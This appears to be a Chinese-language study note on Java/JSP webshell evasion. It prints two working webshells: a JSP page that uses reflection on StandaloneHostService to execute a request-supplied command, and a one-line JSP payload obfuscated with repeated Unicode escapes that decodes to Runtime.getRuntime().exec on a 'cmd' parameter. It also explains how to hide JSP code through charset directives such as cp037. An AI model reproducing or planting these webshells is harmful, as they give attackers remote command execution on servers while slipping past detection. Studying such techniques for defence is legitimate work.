










简介
主要就是对<<java webshell攻防下的黑魔法>>学习 , 推荐看原文，太复杂了 先放放
反射修改
0x01 StandaloneHostService
com.sun.deploy.uitoolkit.impl.fx.HostServicesFactory.StandaloneHostService


反射修改browsers为二进制命令，在传值
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
| <%@ page import="com.sun.javafx.application.HostServicesDelegate" %>
<%@ page import="com.sun.deploy.uitoolkit.impl.fx.HostServicesFactory" %>
<%@ page import="com.sun.deploy.uitoolkit.impl.fx.ui.FXDefaultPreloader" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.lang.reflect.Modifier" %>
<%
System.setProperty("os.name","Linux");
String a = request.getParameter("a");
String b = request.getParameter("b");
if(a!=null && b!=null){
HostServicesDelegate instance = HostServicesFactory.getInstance(new FXDefaultPreloader());
Field browser = instance.getClass().getDeclaredField("browsers");
Field modifiersField = Field.class.getDeclaredField("modifiers");
modifiersField.setAccessible(true);
modifiersField.setInt(browser, browser.getModifiers() & ~Modifier.FINAL);
browser.setAccessible(true);
browser.set(instance,new String[]{a});
instance.showDocument(b);
}
%>
|

0x02 Unicode
Q：为什么支持Unicode的写法？ A：Javac/ecj在底层解析字符的时候支持Unicode编码
Q：为什么支持\uuuuu这种格式？ A：解析过程中只要‘\’的下一个字符是‘u’ 编译器就会一直继续循环，读取下一个字符
• Javac：com.sun.tools.javac.parser.UnicodeReader#convertUnicode
• ecj：org.eclipse.jdt.internal.compiler.parser.Scanner#getNextUnicodeChar

1
2
| <% \uuuuuuuuu0052\uuuuuuuuuuuuu0075\uuuu006e\uu0074\u0069\u006d\u0065\u002e\u0067\u0065\u0074\u0052\u0075\u006e\u0074\u0069\u006d\u0065\u0028\u0029\u002e\uuuuu0065\uuuuu0078\uuuuu0065\uuuu0063\u0028\u0072\u0065\u0071\uuuuuuu0075\u0065\u0073\u0074\uuuuu002e\u0067\u0065\u0074\u0050\u0061\uuuu0072\u0061\u006d\u0065\u0074\u0065\u0072\u0028\u0022\u0063\u006d\u0064\uu0022\u0029\u0029\u003b %>
|

0x03 Tomcat对于编码的解析过程
关于tomcat下编码后的代码文件如何被识别：文中“对于这部分处理逻辑其实是由org.apache.jasper.compiler.ParserController#determineSyntaxAndEncoding做处理，在这个类方法当中有两个比较重要的属性isXml与sourceEnc，字面理解就能得出一个判定是否jsp格式是通过xml格式编写，另一个sourceEnc也就决定着jsp文件的编码相关”
xml格式的声明中最主要是标签中的encoding属性，其决定了内容的编码如： 表示内容以utf-8进行内容编码
识别xml格式的方式 1.根据后缀名.jspx或.tagx （文中说明不作讨论）2.后缀名不符合则根据文本内容是否包含有形如<xxx:root格式的文本，如果有也会识别为一个xml格式




可用部分的编码单字节编码：cp037、cp290等、• 2或4字节编码：utf-16le， utf-16be等、4字节编码：utf-32le、utf-32be等
- <%@ page contentType=”charset=cp037” %>
- <%@ page pageEncoding=”cp037” %>
- <jsp:directive.page contentType=”charset=cp037”/>
- <jsp:directive.page pageEncoding=”cp037”/>

reference
https://cloud.tencent.com/developer/article/2382449
https://www.anquanke.com/post/id/210630
https://github.com/turn1tup/JspEncounter